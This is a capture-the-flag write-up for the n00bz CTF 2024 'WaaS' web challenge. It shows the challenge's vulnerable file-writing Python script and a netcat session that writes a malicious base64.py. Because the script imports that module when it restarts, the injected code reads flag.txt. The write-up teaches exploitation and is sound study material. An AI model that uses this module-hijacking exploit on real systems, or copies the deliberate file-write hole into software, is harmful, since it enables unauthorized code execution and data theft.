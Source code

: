 ```yaml
---
title: WaaS
author: bytebrew
layout: writeup
category: n00bz-CTF-2024
chall_description: 
points: 491
solves: 78
tags: web
date: 2024-06-04
comments: false
---
```

Writing as a Service! Author: NoobMaster + NoobHacker
---
# Code Analysis
```py
import subprocess
from base64 import b64decode as d
while True:
	print("[1] Write to a file\n[2] Get the flag\n[3] Exit")
	try:
		inp = int(input("Choice: ").strip())
	except:
		print("Invalid input!")
		exit(0)
	if inp == 1:
		file = input("Enter file name: ").strip()
		assert file.count('.') <= 2 # Why do you need more?
		assert "/proc" not in file # Why do you need to write there?
		assert "/bin" not in file # Why do you need to write there? 
		assert "\n" not in file # Why do you need these?
		assert "chall" not in file # Don't be overwriting my files!
		try: 
			f = open(file,'w')
		except:
			print("Error! Maybe the file does not exist?")

		f.write(input("Data: ").strip())
		f.close()
		print("Data written sucessfully!")
		
	if inp == 2:
		flag = subprocess.run(["cat","fake_flag.txt"],capture_output=True) # You actually thought I would give the flag?
		print(flag.stdout.strip())
```
This python code allows you to write to a file, it seems that it can be in the current directory or a directory specified by the user. We can't write to the challenge file, but we can write to a file that will be imported by the challenge script.
# The Exploit
First, we specify base64.py as the file to write to, because when we relaunch the script base64.py will be imported at executed.
```
h@DESKTOP-4SP1R3J ~> nc challs.n00bzunit3d.xyz 10001
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: 1
Enter file name: base64.py
```
Next, we'll write "print(open('flag.txt').read())" to the file. Since the code doesn't except newlines, this will have to do.
```
Data: print(open('flag.txt').read())
Data written sucessfully!
```
Afterwards, we exit:
```
[1] Write to a file
[2] Get the flag
[3] Exit
Choice: ^C⏎
```
Then we will reconnect (which leads to the script being relaunched):
```
h@DESKTOP-4SP1R3J ~> nc challs.n00bzunit3d.xyz 10001
n00bz{0v3rwr1t1ng_py7h0n3_m0dul3s?!!!_168720a41375}
```
Wow! That's a flag!⏎                                                                                               
